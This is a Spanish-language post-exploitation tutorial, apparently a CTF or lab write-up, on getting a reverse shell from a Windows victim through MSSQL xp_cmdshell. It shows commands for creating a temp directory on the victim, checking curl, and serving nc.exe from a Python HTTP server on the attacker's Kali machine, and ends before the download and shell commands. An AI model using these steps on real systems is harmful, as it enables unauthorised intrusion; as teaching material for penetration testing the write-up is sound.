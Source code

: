 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Sesiones">Obteniendo Reverse Shell de la Máquina Víctima Mediante Varios Métodos</h2>

La idea es que podamos utilizar una shell con la que podamos movernos libremente.

Existen varias formas que podemos hacerlo, pero lo que sí vamos a utilizar en todas, es el **binario netcat / binario nc.exe**.

La idea es cargar el **binario nc.exe** para poder mandarnos una **Reverse Shell** desde la máquina víctima a la nuestra.

Dentro de **Kali**, ya tenemos varios binarios que podemos utilizar, entre ellos el **binario nc.exe**:
```bash
locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```
Cópialo dentro de tu directorio de trabajo.

Y vamos a crear un directorio temporal en donde guardaremos ese binario:
```batch
SQL (sa  dbo@master)> xp_cmdshell "mkdir C:\Temp"
output   
------   
NULL
```
Listo, veamos que formas tenemos de cargarlo o usar este binario.

<br>

<h3 id="netcat">Cargando Binario nc.exe con curl y Obteniendo Reverse Shell</h3>

Comprobamos que exista y que podemos usar el comando **curl**:
```batch
SQL (sa  dbo@master)> xp_cmdshell "curl"
output                                         
--------------------------------------------   
curl: try 'curl --help' for more information   

NULL 
```
Excelente, si lo tenemos.

Abre un servidor de **Python** en donde tengas el **binario nc.exe**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
